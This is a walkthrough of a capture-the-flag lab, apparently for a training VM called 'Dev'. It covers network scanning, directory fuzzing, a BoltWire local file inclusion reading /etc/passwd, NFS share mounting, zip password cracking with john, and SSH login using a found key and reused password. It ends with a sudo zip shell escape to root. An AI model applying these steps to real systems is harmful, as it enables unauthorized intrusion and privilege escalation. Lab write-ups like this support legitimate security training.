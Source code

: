 # 11.3 - Dev
## Arp scan
```bash
sudo arp-scan -l         
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:0e:34:8d, IPv4: 192.168.17.5
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.17.3    08:00:27:69:23:c9       PCS Systemtechnik GmbH
192.168.17.9    08:00:27:33:8c:df       PCS Systemtechnik GmbH

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.957 seconds (130.81 hosts/sec). 2 responded
```

## Nmap
```bash
# Nmap 7.91 scan initiated Sun Sep  5 07:11:32 2021 as: nmap -T4 -A -oA nmap/scan 192.168.17.9
Nmap scan report for 192.168.17.9
Host is up (0.00030s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33295/udp   mountd
|   100005  1,2,3      33670/udp6  mountd
|   100005  1,2,3      36413/tcp6  mountd
|   100005  1,2,3      58447/tcp   mountd
|   100021  1,3,4      35127/tcp   nlockmgr
|   100021  1,3,4      45853/tcp6  nlockmgr
|   100021  1,3,4      51927/udp6  nlockmgr
|   100021  1,3,4      54847/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
MAC Address: 08:00:27:33:8C:DF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Nmap Summary

- 22/tcp OpenSSH 7.9p1
- 80/tcp Apache 2.4.38 - BoltCMS
- 111/tcp rcpbind
- 2049/tcp nfs_acl 3
- 8080/tcp Apache 2.4.38

Checkout:
*hacktools extension*

## Fuzzing 

### Port 80
`ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.17.9/FUZZ`
Results:
1. /public
2. /src
3. /app
4. /vendor
5. /extensions

### Port 8080
`ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.17.9:8080/FUZZ`
Results:
1. /dev

## Enumerating Port 80 further

Interesting find:
![[Pasted image 20210907230120.png]]
- bolt:I_love_java

## Enumerating Port 8080 further

- We discover boltwire (seemingly a a webdevelopment framework)
- After digging around, we discover some files but none of them are useful
![[Pasted image 20210907231641.png]]
- Register an account 

## Exploiting Boltwire with a LFI 
- Search up boltwire exploits
- We come across this vulnerability which might work using the search feature we discovered:
https://www.exploit-db.com/exploits/48411
- Attempting to hijack the search feature to display users on the machine with the following Local File Inclusion (LFI):

`http://192.168.17.9:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`
![[Pasted image 20210907232023.png]]
- We discover a user called jeanpaul!
- Attempting to login to ssh via the credentials foud above is unsuccessful

## NFS
- After discovering that there is a network file share on the machine after the nmap scan, we can probe the machine to check for any available shares:
`showmount -e 192.168.17.9`
- We then create a directory on our local machine to drop the discovered network file share to 
`sudo mkdir /mnt/dev`
- Mount the NFS to our local machine
`mount -t nfs 192.168.17.9:/srv/nfs /mnt/dev`

![[Pasted image 20210907233009.png]]

## Cracking zip pass with john
- Discover that the zip file is password protected
- Attempt to brute force the password using john the ripper:

1. `/usr/sbin/zip2john save.zip > forjohn`
2. `john --wordlist=/usr/share/wordlists/rockyou.txt forjohn`

![[Pasted image 20210907234017.png]]

- Unzip file and discover `id_rsa` and `todo.txt`
- Contents of todo.txt:
```txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```
- Clearly jp is jeanpaul

## Logging in via ssh
- Attempt to login via ssh:
`ssh -i id_rsa jeanpaul@192.168.17.9`
- Still asks for a passphrase for logging in
- We try `I_love_java` and discover that it works, because clearly jeanpaul loves java

## Priv-esc

- Run `sudo -l`
- Discover /usr/bin/zip binary is allowed to run as root
- GTFO bin it
- Commands:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
- We are root
- cd into /root and cat flag.txt:
```txt
Congratz on rooting this box !
```